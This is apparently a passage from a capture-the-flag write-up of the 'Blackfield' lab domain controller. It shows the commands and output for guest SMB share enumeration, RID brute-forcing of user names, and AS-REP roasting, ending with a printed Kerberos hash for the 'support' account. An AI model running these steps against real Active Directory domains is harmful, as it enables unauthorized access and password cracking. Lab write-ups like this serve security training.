 The target is a domain controller with the domain `BLACKFIELD.local`, let's add it to `/etc/hosts`.

### SMB

Let's see what's on smb

```terminal
[★]$ nxc smb 10.10.10.192 -u 'guest' -p '' --shares                 
SMB         10.10.10.192    445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:BLACKFIELD.local) (signing:True) (SMBv1:False)                           
SMB         10.10.10.192    445    DC01             [+] BLACKFIELD.local\guest:                  
SMB         10.10.10.192    445    DC01             [*] Enumerated shares                        
SMB         10.10.10.192    445    DC01             Share           Permissions     Remark       
SMB         10.10.10.192    445    DC01             -----           -----------     ------       
SMB         10.10.10.192    445    DC01             ADMIN$                          Remote Admin 
SMB         10.10.10.192    445    DC01             C$                              Default share
SMB         10.10.10.192    445    DC01             forensic                        Forensic / Audit share.
SMB         10.10.10.192    445    DC01             IPC$            READ            Remote IPC   
SMB         10.10.10.192    445    DC01             NETLOGON                        Logon server share
SMB         10.10.10.192    445    DC01             profiles$       READ
SMB         10.10.10.192    445    DC01             SYSVOL                          Logon server share  
```

The server allows guests to login, we found a share called `profiles$`

I spidered the share with `nxc` but there is nothing there.

Let's move on.

Next thing we can do it dump users on the server.

```bash
nxc smb 10.10.10.192 -u 'guest' -p '' --rid-brute
```

After clean up, we end up with the following four users.

```terminal
audit2020
support
svc_backup
lydericlefebvre
```

### AS-REP Roasting

Since we have a valid list of users, let's test for as-rep roasting.

```terminal
[★]$ GetNPUsers.py 'BLACKFIELD.local/' -usersfile users.txt -no-pass -dc-ip 10.10.10.192
/home/sirius/.local/pipx/venvs/impacket/lib/python3.11/site-packages/impacket/version.py:12: UserWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_
resources.html. The pkg_resources package is slated for removal as early as 2025-11-30. Refrain from using this package or pin to Setuptools<81.                                              
  import pkg_resources                                                                      
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies                       
                                                                                            
[-] User audit2020 doesn't have UF_DONT_REQUIRE_PREAUTH set                                 
$krb5asrep$23$support@BLACKFIELD.LOCAL:576fb233dc7d013e6b05af3066f3aa34$b4e37257db595eb5a1808c0a222c40f33a80bb1e2b7f0fc6bb304ab33e329fcfc2b9c39025936abba016a813b9affbfe1cf3224f22a720c8bf82d55ea7efb62fe14e967de5d41adf163f5caaf2aea9f97c162ece56abf7eb2be18aca5095a1f27e89862f45b63931013dedb5f6585e55dfe825597fa50c8fad4cdba54d1ab840226087c0ca8f07b10030baa36ba0251b8cc0c9f26303de95e8b974d08753df2abd41e3b3af87047cb0df33b30771f83b7a61bd69dd1389b0808d8bdc200f627f7b3ae189a59e4ec7457c72911bc7e61bb7e4575e91dabcd16cddbd66d5df1d234f195fe49bbd1f7079092668af7317227fb1ac8f 
```
